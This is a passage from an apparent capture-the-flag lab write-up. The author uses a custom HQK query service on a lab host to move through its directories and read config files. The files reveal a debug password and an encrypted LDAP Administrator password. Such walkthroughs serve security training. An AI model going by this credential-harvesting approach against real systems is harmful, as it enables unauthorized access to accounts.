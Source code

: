 ```text
Server Endpoint: 10.10.10.178:4386
Client Endpoint: 10.10.14.253:51630
Current Query Directory: C:\Program Files\HQK\ALL QUERIES

```

The password worked, and I now had a couple of additional commands available.  The `service` and `session` commands gave a little bit of additional information about the server program, but it didn't seem to be useful at this point.  I continued to look around.

```text
>setdir ..

Current directory set to HQK
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>showquery 1

File over size limit. Are you sure this is a HQK query file?
>showquery 3

<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <DebugPassword>WBQ201953D8w</DebugPassword>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>

>setdir ldap

Current directory set to ldap
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: ldap
>showquery 2  

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
